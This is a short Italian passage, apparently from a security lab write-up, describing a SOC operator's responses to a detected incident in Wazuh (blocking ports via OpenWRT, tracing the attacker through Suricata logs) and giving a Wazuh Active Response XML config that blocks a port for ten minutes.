

Ed esaminando la sezione **Eventi** del wazuh-agent corrispondente vedrà le seguenti attività:



A questo punto le opzioni dell'operatore SOC possono essere:
- Bloccare una o più porte in uscita tramite **OpenWRT**
- Rintracciare l'indirizzo **IP** dell'attaccante tramite i log di Suricata*
- Configurare uno script di **Active Response** per evitare che simili situazioni si ripetano**

*(Normalmente si potrebbe fare anche dall'interfaccia di Wazuh, ma per motivi di limitazioni Hardware abbiamo dovuto limitare la dimensione dei log registrati)

```xml
<command>
  <name>block-port</name>
  <executable>block_port.sh</executable>
  <expect>json</expect>
  <timeout>600</timeout> <!-- dopo 10 minuti sblocca la porta -->
</command>

<active-response>
  <command>block-port</command>
  <location>local</location>
  <rules_id>100002</rules_id>
</active-response>
```